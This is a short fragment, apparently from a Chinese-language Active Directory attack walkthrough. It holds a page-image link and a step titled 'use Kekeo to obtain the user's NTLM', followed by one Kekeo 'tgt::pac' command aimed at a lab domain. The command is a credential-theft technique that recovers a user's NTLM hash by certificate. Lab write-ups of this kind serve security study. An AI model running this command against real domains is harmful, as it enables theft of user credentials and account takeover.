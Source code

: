 [![](assets/1699407498-73eef6e1678c6d20b25e331fc7f69d17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106143507-a04fe02c-7c6e-1.png)  
Step 6：使用Kekeo获取用户的NTLM

```plain
tgt::pac /subject:Al1ex /castore:current_user /domain:hacke.testlab
```

